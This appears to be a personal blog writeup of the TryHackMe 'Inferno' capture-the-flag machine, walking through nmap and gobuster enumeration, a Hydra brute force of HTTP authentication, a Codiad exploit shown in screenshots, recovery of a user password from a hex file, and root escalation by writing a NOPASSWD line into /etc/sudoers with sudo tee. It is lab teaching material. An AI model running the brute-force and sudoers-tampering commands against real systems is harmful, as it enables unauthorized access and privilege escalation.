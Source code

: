 ```yaml
---
title: "Inferno TryHackMe"
layout: post
date: 2023-08-19 19:00
tag: 
- TryHackMe
- Pentesting
- Inferno
- Linux
- CTF
- Meduim
image: https://tryhackme-images.s3.amazonaws.com/room-icons/04838068cabd2452b322e06418cce864.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Summary

A meduim real Life machine + CTF.

---
# Nmap

```bash
nmap -A -T4 10.10.144.11   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-19 13:05 +01
Nmap scan report for 10.10.144.11
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
|_  256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dantes Inferno
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I used the common.txt wordlist but I found nothing, then I used the meduim.txt and found the */inferno* endpoint which needed an authentification :

# Gobuster

```bash
gobuster dir -u http://10.10.144.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.144.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/08/19 13:14:59 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 459]
```

The only way was to bruteforce it using **Hydra** :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.144.11 http-get /inferno
[80][http-get] host: 10.10.131.118   login: admin   password: dante1
```

Valid combination found : **admin:dante1**

![!\[\[Pasted image 20230819133810.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819133810.png>)

The user has used the same credentials found before (**admin:dante1**).

<p>I saw the title of the webpage 'Codiad' and I went to look for possible exploits :</p>

![!\[\[Pasted image 20230819141402.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141402.png>)

![!\[\[Pasted image 20230819135144.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135144.png>)

Now I'm in as www-data :

![!\[\[Pasted image 20230819135158.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135158.png>)

![!\[\[Pasted image 20230819135133.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135133.png>)

# www-data -> dante


I found a dat file in */home/dante/Downloads* which contains an encoded hex string :

![!\[\[Pasted image 20230819135823.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135823.png>)

The decoded output contains the user dante's password :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230819135800.png>)

**dante : V1rg1l10h3lpm3**

Now I'm in as *dante* :

![!\[\[Pasted image 20230819135948.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819135948.png>)

# PE

![!\[\[Pasted image 20230819140016.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819140016.png>)

We see in the output of *sudo -l* that dante can run */usr/bin/tee* as root, **GTFObins** will helps us to exploit that:

[https://gtfobins.github.io/gtfobins/tee](https://gtfobins.github.io/gtfobins/tee)

```bash
echo 'dante ALL=(ALL) NOPASSWD:ALL' | sudo /usr/bin/tee -a /etc/sudoers
```

BOOM I'm root!

And now we can read the root flag and Voilà :

![!\[\[Pasted image 20230819141116.png\]\]](<../../../assets/images/THMPics/Pasted image 20230819141116.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>